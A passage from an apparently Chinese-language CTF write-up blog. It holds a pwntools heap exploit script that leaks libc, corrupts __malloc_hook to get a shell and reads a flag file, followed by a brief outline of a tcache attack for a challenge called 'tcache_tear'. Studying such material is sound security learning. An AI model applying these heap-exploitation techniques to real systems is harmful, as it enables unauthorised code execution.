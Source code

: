 ```python
heap=u64(p.readline()[:-1].ljust(8,"\x00"))-(0x555555757010-0x0000555555757000)
add(0x100,"1")
add(0x88,"2")
add(0x18,'3')
free(0)
free(1)
add(0x38,"0"*0x38)
add(0x88,"1")
add(0x68,"4")
free(1)
free(2)
# over lap
add(0x88)#1
show(4)
p.readuntil("Secret : ")
base=u64(p.readline()[:-1].ljust(8,'\x00'))-(0x7fbba86b2b78-0x00007fbba82ef000)
#libc=ELF("/lib/x86_64-linux-gnu/libc.so.6")
log.warning(hex(heap))
log.warning(hex(base))
libc=ELF("./libc_64.so.6")
libc.address=base

add(0x68,p64(0xcafebabe))#2
add(0x68,p64(0xdeadbeef))#5
free(2)
free(5)
free(4)
#context.log_level='debug'
#gdb.attach(p)
add(0x68,p64(libc.symbols['__malloc_hook']-35))#2
add(0x68,p64(0xdeadbeef))#4
add(0x68,p64(0xdeadbeef))#5
add(0x68,"\x00"*19+p64(base+0xef6c4))#6
free(2)
free(5)

p.sendline("cat /home/secret_of_my_heart/flag")
p.interactive("nier>")
```

# tcache_tear
比较简单的一题tcache...要是那天没有和小伙伴们一起出去玩...或许能拿个成就
```python
➜  Desktop checksec tcache_tear
[*] '/home/n132/Desktop/tcache_tear'
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
    FORTIFY:  Enabled
```
主要简单在没开pie而且bss上有stdout然后tcache 没有太多限制直接tcache atk就可以控制stdout
再盖掉stdout的flags和几个ptr就可以泄露libc基址然后就可以直接写掉free hook
如果对flags不太清楚的可以看下[这篇文章][4]


[1]: https://code.woboq.org/qt5/include/linux/prctl.h.html
[2]: https://n132.github.io/2018/11/15/2018-11-15-Hitcone-baby-tcache/
[3]: https://blog.csdn.net/qq_19683651/article/details/61418292
[4]: https://n132.github.io/2018/11/15/2018-11-15-Hitcone-baby-tcache/
[5]: https://n132.github.io/2019/02/11/Kidding/
[6]: https://n132.github.io/2018/11/27/2018-11-27-GETS-THE-SHELL/
[7]: https://n132.github.io/2018/11/27/2018-11-27-GETS-THE-SHELL/
[8]: https://n132.github.io/2019/02/23/mno2/
[9]: https://code.woboq.org/userspace/glibc/time/tzset.c.html#__tz_convert